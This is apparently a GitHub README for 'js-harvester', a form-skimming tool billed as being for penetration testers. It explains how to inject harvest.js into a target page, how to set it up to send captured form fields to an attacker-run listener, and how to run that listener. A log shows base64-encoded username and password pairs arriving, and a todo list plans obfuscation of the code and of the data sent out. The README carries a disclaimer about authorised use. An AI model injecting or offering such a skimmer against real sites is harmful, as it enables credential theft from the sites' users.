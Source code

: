 # js-harvester
This is a tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access.
# installation
* Requires jQuery
* Ability to inject harvest.js to the target site
# usage
1. Identify target page to harvest data from (see example-forms for reference/test materials)
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
6. Update the settings in harvest.js
```
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```
* <b>siteId and formId:</b> The siteId and formId values were originally hardcoded. These values are now dynamically generated based on the form properties (host, page, form name)
* <b>bindAllFormsSwitch:</b> boolean value 'true' or 'false'. true will bind all forms on the page, false will bind the form name specified by 'formName'
* <b>formName:</b> required if not binding all forms on the page (see bindAllFormsSwitch)
* <b>enableEncoding:</b> enables base64 encoding of exfiltrated data, may expand to other encoding types/formats
* <b>usePost:</b> boolean value 'true' or 'false'. indicates whether a POST request should be used for data exfiltration, default is to use GET
* <b>_0x3745:</b> array of values used for data exfiltration, the first 4 need to be customized for the data exfiltration endpoint

5. Listen. . .
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.1.211 - - [14/Sep/2024 18:39:22] "GET /harvest?data=dXNlcm5hbWU6cGV0ZXImcGFzc3dvcmQ6d2VpbmVyJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:27] "GET /harvest?data=dXNlcm5hbWU6YWRtaW4mcGFzc3dvcmQ6YWRtaW4mc2l0ZUlkOk1Ua3lMakUyT0M0eExqSXpOdz09JmZvcm1JZDpMMnB6YUdGeWRtVnpkQzlzYjJkcGJpMW1iM0p0TG1oMGJXd3RiRzluYVc1bWIzSnQ= HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:33] "GET /harvest?data=dXNlcm5hbWU6Z2VvcmdlJnBhc3N3b3JkOmJ1cm5zJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                                       
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ 
```

# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* enhance decoder tools
* change form processing to avoid using name or id properties
* collect client information (IP, user agent, referer, timezone etc.)
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
